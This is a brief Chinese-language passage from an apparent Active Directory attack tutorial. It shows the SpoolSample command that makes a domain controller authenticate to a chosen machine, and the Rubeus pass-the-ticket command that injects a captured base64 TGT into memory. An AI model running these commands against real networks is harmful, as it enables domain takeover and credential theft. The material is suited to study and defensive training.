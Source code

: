 ![](images/35.png)

启动SpoolSample使域控强认证:

	SpoolSample AD aa-PC

在计算机管理可以看到多了几条登录日志：

![](images/37.jpg)

Rubeus.exe捕获到的TGT是base64编码的，但是我们不需要解码，Rubeus可以直接将base64编码的票据直接注入到内存中：

	Rubeus.exe ptt /ticket:base64
